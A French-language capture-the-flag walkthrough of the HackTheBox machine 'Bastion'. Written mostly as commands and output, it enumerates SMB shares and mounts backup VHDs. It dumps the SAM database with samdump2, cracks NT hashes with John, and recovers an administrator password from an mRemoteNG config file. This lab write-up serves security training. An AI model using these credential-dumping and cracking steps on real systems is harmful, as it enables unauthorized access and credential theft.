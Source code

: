 ```yaml
---
layout: post
title: HackTheBox - Bastion  
---
```


![bastion]({{ site.baseurl }}/images/bastion.png)

Débutons avec un scan : 

~~~bash
root@kali:~# nmap -p- -Pn -T5 10.10.10.134
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-10 23:42 CEST
Warning: 10.10.10.134 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.134
Host is up (0.066s latency).
Not shown: 63167 closed ports, 2355 filtered ports
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 41.27 seconds
~~~

Et si nous regardions la partie SMB ?  

~~~bash
root@kali:~# nmap -p445 -A 10.10.10.134
...
Host script results:
|_clock-skew: mean: -59m54s, deviation: 1h24m49s, median: -1h59m53s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-06-10T23:50:42+02:00
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-06-10 23:50:41
|_  start_date: 2019-06-09 23:13:05

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   ... 10
11  14.93 ms 10.10.10.134
~~~

En attendant continuons sur l’énumération :

~~~bash
root@kali:~# smbclient -L 10.10.10.134 -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	Backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
~~~

Un dossier backups vraisemblablement intéressant : 

~~~bash
root@kali:~# smbclient //10.10.10.134/ -N
Try "help" to get a list of possible commands.
smb: \> list
0:	server=10.10.10.134, share=backups
smb: \> ls
  .                                       D        0  Tue Apr 16 12:02:11 2019
  ..                                      D        0  Tue Apr 16 12:02:11 2019
  note.txt                               AR      116  Tue Apr 16 12:10:09 2019
  SDT65CB.tmp                             A        0  Fri Feb 22 13:43:08 2019
  WindowsImageBackup                      D        0  Fri Feb 22 13:44:02 2019

		7735807 blocks of size 4096. 2787024 blocks available
smb: \> get note.txt
getting file \note.txt of size 116 as note.txt (0,9 KiloBytes/sec) (average 0,9 KiloBytes/sec)
~~~

Affichons le contenu des fameuses notes : 

~~~bash
root@kali:~# cat note.txt 

Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
~~~

En gros, nous sommes face à un partage contenant des sauvegardes, voyons voir : 

~~~bash
root@kali:~# smbclient //10.10.10.134/backups -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                       D        0  Tue Apr 16 12:02:11 2019
  ..                                      D        0  Tue Apr 16 12:02:11 2019
  note.txt                               AR      116  Tue Apr 16 12:10:09 2019
  SDT65CB.tmp                             A        0  Fri Feb 22 13:43:08 2019
  WindowsImageBackup                      D        0  Fri Feb 22 13:44:02 2019

smb: \> cd WindowsImageBackup\
smb: \WindowsImageBackup\> ls
  .                                       D        0  Fri Feb 22 13:44:02 2019
  ..                                      D        0  Fri Feb 22 13:44:02 2019
  L4mpje-PC                               D        0  Fri Feb 22 13:45:32 2019

smb: \WindowsImageBackup\> cd "L4mpje-PC\Backup 2019-02-22 124351\"
smb: \WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 124351\> ls
  .                                       D        0    Fri Feb 22 13:45:32 2019
  ..                                      D        0    Fri Feb 22 13:45:32 2019
  A.vhd                                   A 37761024    Fri Feb 22 13:44:03 2019
  B.vhd                                   A 5418299392  Fri Feb 22 13:45:32 2019
~~~

Récupérons ces VHD. 

Ils doivent contenir des informations intéressantes, puis montons les : 

~~~bash
root@kali:~# virt-list-partitions b.vhd 
/dev/sda1
root@kali:~# virt-list-partitions a.vhd 
/dev/sda1
root@kali:~# guestmount --add b.vhd  --ro /mnt/b -m /dev/sda1
root@kali:~# ls /mnt/b
'$Recycle.Bin'  'Documents and Settings'   ProgramData     'System Volume Information'
 autoexec.bat    pagefile.sys             'Program Files'   Users
 config.sys      PerfLogs                  Recovery         Windows
~~~

Nous allons dumper la base de données SAM :

~~~bash
root@kali:/mnt/b/Windows/System32/config# samdump2 -o /root/out.sam /mnt/b/Windows/System32/config/SYSTEM /mnt/b/Windows/System32/config/SAM
root@kali:/mnt/b/Windows/System32/config# cat /root/out.sam 

*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
~~~
Maintenant cassons la avec John :

~~~bash
root@kali:~# john out.sam -format=nt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (*disabled* Administrator)
bureaulampje     (L4mpje)
2g 0:00:00:00 DONE (2019-06-11 17:26) 2.439g/s 11457Kp/s 11457Kc/s 11463KC/s buresres..burdy1
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
root@kali:~# john /root/out.sam -format=nt --show 
Administrator::500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:bureaulampje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

3 password hashes cracked, 0 left
~~~

Connectons-nous via SSH : 

~~~bash
l4mpje@BASTION C:\Users\L4mpje>type Desktop\user.txt 9bfe57d5c3309db3a151772f9d86c6cd 
~~~

En regardant autour de nous, il semble qu'un client mRemoteNG soit installé.
Voyons pour récupérer sa configuration :

~~~bash
root@kali:~# scp -v L4mpje@10.10.10.134:C:/\Users/\L4mpje/\AppData/\Roaming/\mRemoteNG/\confCons.xml mremote.txt
~~~
Depuis une machine virtuelle, importons le fichier `confCons.xml` et extrayons le mot de passe contenu dans les champs. 
Pour cela : 
- Cliquer sur Outils > Outils externes
- Faire un clic droit dans une des case vide du tableau > Nouvel outil externe (Maj + F4)
- Dans nom affiché > `Afficher le mot de passe`
- Dans nom du fichier > `CMD `
- Arguments > `/k echo %password%`
Maintenant depuis la liste de connexions, faire un clic droit sur la connexion qui nous intéresse et cliquer sur Afficher le mot de passe.
Dans notre cas : 

~~~bash
thXLHM96BeKL0ER2
~~~
> Source : http://hackersvanguard.com/mremoteng-insecure-password-storage/

Depuis SSH, tentons d'utiliser le mot de passe trouvé dans mRemoteNG :

~~~bash
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
administrator@BASTION C:\Users\Administrator>whoami 
bastion\administrator 
administrator@BASTION C:\Users\Administrator>type Desktop\root.txt 958850b91811676ed6620a9c430e65c8                     
~~~

We are ROOT !

---
